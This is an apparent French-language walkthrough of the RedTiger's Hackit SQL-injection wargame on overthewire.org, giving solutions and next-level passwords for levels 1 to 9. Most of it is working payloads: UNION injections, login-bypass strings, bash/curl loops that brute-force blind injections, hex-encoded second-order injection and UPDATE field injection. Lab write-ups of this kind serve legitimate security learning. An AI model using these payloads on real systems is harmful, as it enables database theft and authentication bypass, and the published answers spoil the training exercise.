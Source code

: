 RedTigers-Hackit
================
https://redtiger.labs.overthewire.org/

##Level 1 : Simple SQL-Injection
```
https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
```
  You made it dude!

  The password for the next level is: easylevelsareeasy_! 
   
##Level 2 : Simple login-bypass
```
username : a' OR '1'='1
password : a' OR '1'='1
```
  The password for the next level is: securitycat_says_meow_and_likes_cheese 
  
##Level 3 : Get an error

  Génération de l'erreur :
```
https://redtiger.labs.overthewire.org/level3.php?usr%5B0%5D=a&usr%5B1%5D=b
```
Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

```PHP
<?php
  		
	function encrypt($str)
	{
		$cryptedstr = "";
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ 192;
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  
	function decrypt ($str)
	{
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}

				foreach($array as $s)
				{
					$a = $s^192;
					$decStr .= chr($a);
				}
				
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```
on le stocke dans un fichier php auquel on ajoute 
```php
echo encrypt($argv[1]);
```

plus qu'à trouver le nombre de champs et afficher le mot de passe 
```
curl --insecure -b level3login=securitycat_says_meow_and_likes_cheese https://redtigire.org/level3.php?usr=`php toto.php "' union select 1,username,3,4,5,password,7 from level3_users where username='Admin "` 
```
 Login correct. You are admin :); 
 The password for the next level is: dont_publish_solutions_GRR! 
 
##Level 4 : Blind Injection
   Identification de la taille du mot à trouver
```nix
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C10
=> 2 rows
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C20
=> 1 row ==> taille entre 10 et 20 caractères
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29=17
=> mot de 17 caractères

on devine maintenant le mot
for i in {1..17}; do
	for x in {a..z}; do 
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done
manque les derniers caractères :-(

for i in {14..17}; do
	for x in {0..9}; do
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done

==> blindinjection123
```
 Word correct. 
 The password for the next level is: bananas_are_not_yellow-sometimes

##Level 5 : Advanced login-bypass
```nix
echo -n toto | md5sum
f71dbe52628a3f83a77ab494817525c6  -

login : ' union 'pouet', 'f71dbe52628a3f83a77ab494817525c6
passwd : f71dbe52628a3f83a77ab494817525c6
```
  Login successful!
  
  The password for the next level is: my_cat_says_meow_meowmeow 
  
##Level 6 : SQL-Injection
```nix
https://redtiger.labs.overthewire.org/level6.php?user=0%20or%20status=1
==> 
Username: 	admin
Email: 	admin@localhost
1er user avec status=1 est admin

https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,username,1,1,1%20from%20level6_users%20where%20status=1
==> username est utilisé pour une seconde requête

pour injecter dans la seconde requête, on encode en hexadécimal (équivalent de HEX() sql mais désactivé pour l'exercice)
echo -n "' union select 1,2,3,4,5 from level6_users where id=3 -- " | xxd -p | tr -d '\n'
==> 2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20

https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1
==> On obtient les n° de champs
Username: 	2
Email: 	4

echo -n "' union select 1,username,3,password,5 from level6_users where id=3 -- " | xxd -p | tr -d '\n'
ttps://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1
==> on obtient le mot de pase
Username: 	admin
Email: 	m0nsterk1ll
```
 Login correct. 
 The password for the next level is: dont_shout_at_your_disks*** 
 
##Level 7 : SQL-Injection
  On valide le formulaire de recherche avec dans le champ de saisie la chaine bidon'
  On obtient la requête utilisée :
```SQL
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%bidon'%' OR text.title LIKE '%bidon'%')
```
La recherche suivante nous indique la taille du nom de l'auteur :
```SQL
google%' and length(news.autor)=17 and '%'='
```
Compte tenu des limitations SQL, on recherche les caractères composant le nom avec LOCATE :
```nix
for i in {1..17}; do
for x in `echo {A..Z} {a..z} {0..9}`; do 
	curl -s --insecure -b level7login=dont_shout_at_your_disks%2A%2A%2A https://redtiger.labs.overthewire.org/level7.php -d "dosearch=search\!&search=google%' and locate('$x',news.autor,$i)=1 and '%'='" | grep "FRANCISCO"
	rc=$?
	
	
	if [[ $rc == 0 ]] ; then

		echo "found : $x"
		break;
	
	fi
done
done
```
==> TESTUSERFORG00GLE

PB : pas de distinction majuscules/minuscules avec LOCATE :'-(

utilisation de locate('$x',news.autor COLLATE latin1_general_cs,$i)=$i

==> TestUserforg00gle

 User correct.

The password for the next level is: MOOcowMEOWcatOinkPIG 

##Level 8 : SQL-Injection
Si on met une apostrophe dans le champ email à la fin de l'adresse existante, on obtient l'erreur :
```sql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '12345', age = '25' WHERE id = 1' at line 3 Username: Admin
```
Dans les autres champs, l'apostrophe est échappée (\')

Dans le champ email, on indique de remplacer le contenu du champ name par le champ password :
```sql
hans@localhost', name=password,icq='toto
```
Le champ Name contient : themeaningoflife42

 Login correct. You are admin :); 
 
 The password for the next level is: slap_the_lamerz_drink_some_beer 
 
##Level 9 : SQL-Injection

On essaye le caractère ' dans chaque champ. Dans le textara, on obtient la sortie :
```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' 
```

##Level 10
